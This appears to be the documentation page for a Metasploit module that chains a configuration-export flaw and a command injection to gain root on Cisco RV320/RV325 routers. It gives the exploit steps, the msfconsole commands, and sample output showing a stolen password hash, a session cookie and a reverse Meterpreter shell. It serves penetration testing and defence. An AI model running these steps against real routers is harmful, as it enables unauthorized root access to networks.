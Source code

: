 ## Introduction
This module automatically exploits two vulnerabilities to create an effectively
unauthenticated remote code execution on RV320 and RV325 routers.

The module will perform the following steps:

First the module will download the configuration. Then it will extract the MD5
password hash for the web interface user. The MD5 password hash is directly
accepted during login instead of the plain text password. With the MD5 hash the
module will authenticate to the web interface of the router and get a valid
authentication cookie. 

The second step is using the authentication cookie to
send an authenticated request to the web interface which exploits a command
injection vulnerability. The injection is limited to ~50 characters. Therefore,
the module uses a web server to stage a shell payload for the MIPS64
architecture of the router. Depending on the payload the module will result in
a shell or meterpreter session.

## Vulnerable Application:

Cisco Small Business Routers RV320 and RV325 with firmware versions between
1.4.2.15 and 14.2.20.

Link to vulnerable Firmware Version:
https://software.cisco.com/download/home/284005929/type/282465789/release/1.4.2.20?i=!pp


Links to Advisories:
Part 1 of the exploit (configuration download):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-002/-cisco-rv320-unauthenticated-configuration-export

Part 2 of the exploit (command injection in web interface):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-004/-cisco-rv320-command-injection

Advisories by vendor:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-inject

## Options

### RHOSTS

Configure the remote vulnerable system.

### RPORT

Configure the TCP port of the HTTP/HTTPS management web interface.

### USE_SSL

This flag controls whether the remote management web interface is accessible
via HTTPS or not. Should be false for HTTP and true for HTTPS.

### PAYLOAD

Configure the Metasploit payload that you want to stage. Must be for MIPS64
arch.  Set payload Options accordingly.

### SRVHOST

The module stages the payload via a web server. This is the binding interface
IP. Default can be set to 0.0.0.0. 

### HTTPDelay

This configures how long the module should wait for the incoming HTTP
connection to the HTTP stager.

## Verification Steps

1. Have exploitable RV320 or RV325 router (exampe IP: 192.168.1.1):
2. Start `msfconsole`:
3. Do:  ```use exploit/linux/http/cisco_rv32x_rce```
4. Do: ```set RHOSTS 192.168.1.1```
5. Do: ```set payload linux/mips64/meterpreter_reverse_tcp``` (Set the MIPS64 payload you want to use)
6. Do: ```set LHOST 192.168.1.2``` (Setting your own IP here, example: 192.168.1.2)
7. Do: ```set RPORT 8007``` (Set the remote Port on which the router web interface is accessible)
8. Do: ```run```
9. Gives you a privileged (uid=0) shell or in the example a meterpreter session.


## Scenarios

Exploiting a vulnerable RV320 router with publicly accessible HTTPS web
interface on TCP port 443: 
```
msf exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
msf exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
msf exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
msf exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
msf exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
msf exploit(linux/http/cisco_rv32x_rce) > run
```

Demo example output for the module:
```
msf > use exploit/linux/http/cisco_rv32x_rce 
msf exploit(linux/http/cisco_rv32x_rce) > show options

Module options (exploit/linux/http/cisco_rv32x_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  15               yes       Time that the HTTP Server will wait for the payload request
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      8007             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   URIPATH    /                yes       The path for the stager. Keep set to default! (We are limited to 50 chars for the initial command.)
   USE_SSL    false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   LINUX MIPS64

msf exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
payload => linux/mips64/meterpreter_reverse_tcp
msf exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
msf exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
RPORT => 443
msf exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
USE_SSL => true
msf exploit(linux/http/cisco_rv32x_rce) > run

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.2:8080/
[*] Server started.
[*] Downloading configuration from 192.168.1.1:443
[*] Using SSL connection to router.
[*] Successfully downloaded config
[*] Got MD5-Hash: dfead10390e560aea745ccba53e044ed
[*] Logging in as user cisco using password hash.
[*] Using default auth_key 1964300002
[*] Successfully logged in as user cisco.
[*] Got cookies: mlap=RGVmYXVsdDE6Ojo6Y2lzY28=;
[*] Sending payload. Staging via http://192.168.1.2:8080/.
[*] 192.168.1.1:443 - Payload request received: /
[*] Waiting for stager connection timed out. Try increasing the delay.
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:48580) at 2019-03-14 10:00:00 +0100
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=99, euid=0, egid=99
```
